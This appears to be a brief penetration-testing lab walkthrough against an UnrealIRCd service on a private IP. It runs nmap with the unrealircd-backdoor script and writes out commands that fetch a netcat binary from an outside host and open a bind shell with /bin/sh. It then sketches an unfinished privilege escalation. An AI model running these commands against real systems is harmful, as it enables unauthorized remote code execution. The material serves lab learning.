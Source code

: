 recon

![image](https://user-images.githubusercontent.com/83407557/182646813-1cf0090d-e378-4c69-8168-c0bf57aabdba.png)


searchsploit 

![image](https://user-images.githubusercontent.com/83407557/182646900-69397f1f-53cf-40ed-a66c-580023b4e641.png)

nse 

nmap -d -p6667 --script=irc-unrealircd-backdoor.nse 192.168.81.120

nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='wget http://192.168.49.81/test' 192.168.81.120

verify that I can ping myself

![image](https://user-images.githubusercontent.com/83407557/182649442-ccf3b1f3-6737-4490-b6e5-e27eafd6ffc5.png)



nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='wget http://www.javaop.com/~ron/tmp/nc && chmod +x ./nc && ./nc -l -p 4444 -e /bin/sh' <target>


  
  
  
  
  making a revshell
  
 ![image](https://user-images.githubusercontent.com/83407557/182650425-b8191898-51d5-4b8c-a985-a2bc8107ad3b.png)

  proof
  
  ![image](https://user-images.githubusercontent.com/83407557/182651131-90a0eda5-61f2-48dd-b311-b15ab0609233.png)

  
  priv esc
  
  Found in current user's home folder
  
  ![image](https://user-images.githubusercontent.com/83407557/182654840-cb733925-0c28-4950-a91d-6cc291c30d6b.png)

  ![image](https://user-images.githubusercontent.com/83407557/182655731-26110974-b6a2-445b-8310-a15885526888.png)
  
  still writeable...ect and owned by root
  
  ![image](https://user-images.githubusercontent.com/83407557/182655853-b3952255-3cf5-426c-a8a8-721798c5c33f.png)


making the exploit
  
  just need to switch to root:
  
  
  
  ran out of time.

